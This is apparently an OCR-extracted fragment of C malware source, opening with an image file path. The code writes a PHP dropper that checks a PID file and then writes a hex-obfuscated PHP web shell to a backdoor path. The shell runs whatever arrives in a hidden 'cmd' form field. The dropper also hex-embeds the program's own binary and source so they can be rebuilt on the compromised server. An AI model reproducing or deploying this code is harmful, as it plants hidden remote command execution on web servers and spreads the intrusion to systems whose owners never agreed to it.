  if((fp=fopen(CMD_FILE,"w"))==NULL)
 {
  return(-1);
 }
 
 fprintf(fp,"<?\n"
  "chdir('../../');\n\n"
  "if(($fp=fopen('%s','r'))!=NULL)\n"
  "{\n"
  "$pnum=fread($fp,32);\n"
  "fclose($fp);\n"
  "$pnum=str_replace(\"\\n\",\"\",$pnum);\n"
  "if(($fp=fopen('/proc/'.$pnum.'/stat','r'))!=NULL)\n"
  "{\n"
  "exit;\n"
  "}\n"
  "}\n\n"
  "$cont=\"\\x3c\\x3f\\x0a\\x09\\x65\\x63\\x68\\x6f\\x20\\x27\\x3c\\x46\".\n"
  "\"\\x4f\\x52\\x4d\\x20\\x41\\x43\\x54\\x49\\x4f\\x4e\\x3d\\x24\".\n"
  "\"\\x50\\x48\\x50\\x5f\\x53\\x45\\x4c\\x46\\x20\\x4d\\x45\\x54\".\n"
  "\"\\x48\\x4f\\x44\\x3d\\x50\\x4f\\x53\\x54\\x3e\\x27\\x3b\\x0a\".\n"
  "\"\\x09\\x65\\x63\\x68\\x6f\\x20\\x27\\x3c\\x49\\x4e\\x50\\x55\".\n"
  "\"\\x54\\x20\\x54\\x59\\x50\\x45\\x3d\\x48\\x49\\x44\\x44\\x45\".\n"
  "\"\\x4e\\x20\\x4e\\x41\\x4d\\x45\\x3d\\x63\\x6d\\x64\\x20\\x56\".\n"
  "\"\\x41\\x4c\\x55\\x45\\x3d\\x24\\x63\\x6f\\x6d\\x6d\\x61\\x6e\".\n"
  "\"\\x64\\x3e\\x3c\\x2f\\x46\\x4f\\x52\\x4d\\x3e\\x3c\\x50\\x52\".\n"
  "\"\\x45\\x3e\\x27\\x3b\\x0a\\x09\\x24\\x63\\x6f\\x6d\\x6d\\x61\".\n"
  "\"\\x6e\\x64\\x3d\\x73\\x74\\x72\\x5f\\x72\\x65\\x70\\x6c\\x61\".\n"
  "\"\\x63\\x65\\x28\\x27\\x5c\\x5c\\x27\\x2c\\x27\\x27\\x2c\\x24\".\n"
  "\"\\x63\\x6f\\x6d\\x6d\\x61\\x6e\\x64\\x29\\x3b\\x0a\\x09\\x65\".\n"
  "\"\\x63\\x68\\x6f\\x20\\x60\\x24\\x63\\x6f\\x6d\\x6d\\x61\\x6e\".\n"
  "\"\\x64\\x60\\x3b\\x0a\\x3f\\x3e\\x0a\";\n\n"
  "$fp=fopen('%s','w');\n"
  "fputs($fp,$cont);\n"
  "fclose($fp);\n\n",PRC_FILE,BACKDOOR_PATH);

 if((pf=fopen(CODE_PATH,"r"))==NULL)
 {
  return(-1);
 }
 
 fprintf(fp,"$cont=\"");
 while(fread(&w1,1,1,pf))
 {
  fprintf(fp,"\\x%02x",w1);
 }
 fclose(pf);
 fprintf(fp,"\";\n\n");
 
 fprintf(fp,"$fp=fopen('%s','w');\n"
  "fputs($fp,$cont);\n"
  "fclose($fp);\n\n",CODE_PATH);
 if((pf=fopen(CODE_PATH_SRC,"r"))==NULL)
 {
  return(-1);
 }
 fprintf(fp,"$cont=\"");
 while(fread(&w1,1,1,pf))
 {
  fprintf(fp,"\\x%02x",w1);
 }
 fclose(pf);
 fprintf(fp,"\";\n\n");
 